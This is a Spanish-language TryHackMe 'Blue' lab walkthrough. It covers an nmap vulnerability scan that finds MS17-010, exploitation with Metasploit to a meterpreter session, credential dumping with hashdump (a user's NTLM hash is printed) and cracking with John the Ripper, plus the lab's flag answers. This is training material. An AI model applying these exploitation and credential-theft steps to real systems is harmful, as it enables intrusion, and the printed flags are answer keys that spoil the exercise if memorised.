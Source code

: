 ```yaml
---
layout: single
title: Blue - Try Hack Me
excerpt: "Blue, maquina windows catalogada como dificultad "Easy", es una sección para aprender enfocada a principiantes."
date: 2021-11-07
classes: wide
header:
  teaser: /assets/images/thm-blue/1.jpg
  teaser_home_page: true
  icon: /assets/images/thm.webp
categories:
  - TryHackMe
  - Aprender
tags:  
  - Windows
  - Easy
  
---
```


![](/assets/images/thm-blue/1a.jpg)

Blue (Eternal blue), maquina windows catalogada como dificultad "Easy", es una sección para aprender enfocada a principiantes, veremos diferentes tecnicas de explotación utilizando metasploit, escalada de privilegios...

Como es una seccion de aprendizaje, mientras vamos resolviendo la maquina vamos a ir respondiendo una seríe de preguntas que os voy a ir dejando.

## 1-Recon

Vamos a hacer un escaneo de puertos con Nmap. Nmap -sC -sV --script vuln 10.10.61.80 -o PortsNmap

-sC -sV → Usar scripts más comunes y mostrar versiones, --script vuln -> Buscar vulnerabilidades sobre los puertos abiertos y -o Guardar escaneo en archivo.

Nmap nos devuelve todo esto:

```
┌──(rincon㉿rincon)-[~]
└─$ nmap -sC -sV --script vuln 10.10.61.80 -o PortsNmap                                                                                                

Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-07 16:07 CET
Nmap scan report for 10.10.61.80 (10.10.61.80)
Host is up (0.047s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.82 seconds
```
Vemos que nos devuelve bastantes puertos abiertos, vamos a provechar el script vuln para mirar si nos a encontrado algo que nos interese y parece que tenemos una vulnerabilidad que nos puede servir en un futuro -> ms17-010.

![](/assets/images/thm-blue/2.jpg)

## 2-Gain Access

Vamos a iniciar metasploit, para eso introducimos el comando: msfconsole.

Una vez dentro vamos a buscar alguna vulnerabilidad con el código encontrado, usaremos el comando search, vemos que tenemos un exploit vamos a copiar la ruta y a usarlo, dictamos las opciones lo configuramos y lo lanzamos!.

![](/assets/images/thm-blue/3.jpg)

![](/assets/images/thm-blue/4.jpg)

Vemos que el exploit a funcionado correctamente y ya nos a devuelto una meterpreter.

![](/assets/images/thm-blue/5.jpg)

![](/assets/images/thm-blue/6.jpg)

## 3-Escalate

La sesión que hemos conseguido es bastante debil y es posible que la perdamos en cualquier moemnto, para eso pulsamos ctrl + Z para enviarla a una sesión en segundo plano (Background), ahora vamos a investigar como pasar un meterpreter a shell en metasploit, Para realizar la conversión utilizaremos -> 
```
post/multi/manage/shell_to_meterpreter
```
Una vez echo esto listaremos las opciones y vemos que una de ellas nos pide que le indiquemos en que sesión queremos que se use, la establecemos y ejecutamos.

![](/assets/images/thm-blue/7.jpg)

Vemos que nos da error asi que vamos a volver a nuestra sesión con el somando -> sessions 1

Ahora vamos verificar que tengamos privilegios y vamos a migrar un proceso.

![](/assets/images/thm-blue/8.jpg)

![](/assets/images/thm-blue/9.jpg)

## 4-Cracking

Ahora vamos a volcar la contraseña de usuario no predeterminado y vamos a descifrarla. Para ello utilizaremos el comando: hashdump , vemos que nos devuelve unos códigos hash.

Vemos que el usuario no predeterminado se llama: Jon y su hash correspondientes es este: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Ahora que sabemos el hash, tenemos que saber que codificación utiliza, buscando en internet encontramos que utiliza: NTLM , usaremos john the ripper para descifrarla. 

![](/assets/images/thm-blue/10.jpg)

![](/assets/images/thm-blue/11.jpg)

## 5-Find flags!

Flag1? This flag can be found at the system root. -- flag{access_the_machine}

Nos indica que la flag se encuentra en la raiz del sistema, vamos a buscarla.

Vamos a la raíz del sistema C:\ y encontramos la flag.

![](/assets/images/thm-blue/12.jpg)

Flag2? This flag can be found at the location where passwords are stored within Windows. -- flag{sam_database_elevated_access}

Nos indica que la flag esta donde se almacenan las contraseñas de windows, vamos a buscarla.

La ubicación donde se almacenan las contraseñas de windows es: C:\Windows\System32\config

![](/assets/images/thm-blue/13.jpg)

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. -- flag{admin_documents_can_be_valuable}

Nos dice que los administradores les gusta esconder cosas y que se encuentra en una ubicación para saquear, vamos a buscarla.

Vamos a investigar por el usuario Jon, por Desktop, Documents, Videos... En este caso lo hemos encontrado a la primera en el directorio documentos.

![](/assets/images/thm-blue/14.jpg)

![](/assets/images/thm-blue/16.jpg)

![](/assets/images/thm-blue/15.jpg)
